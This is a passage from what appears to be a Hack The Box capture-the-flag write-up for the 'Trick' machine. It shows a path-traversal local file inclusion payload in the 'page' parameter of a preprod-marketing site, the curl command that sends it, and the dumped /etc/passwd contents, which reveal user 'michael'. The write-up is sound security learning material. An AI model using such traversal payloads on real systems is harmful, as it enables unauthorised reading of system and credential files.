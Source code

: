 # The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.129.38.208   trick.htb preprod-payroll.trick.htb preprod-marketing.trick.htb
```
The ```page``` URL parameter seemed very suspicous and it actually had a LFI vulnerability, which I've found after some trial and error with ```Burp```.

http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd


```
┌──(kali㉿kali)-[~/htb/trick]
└─$ curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

```/etc/passwd``` reveals a user we probably have to pivot to:
|  Username |
|---|
|  Michael |

```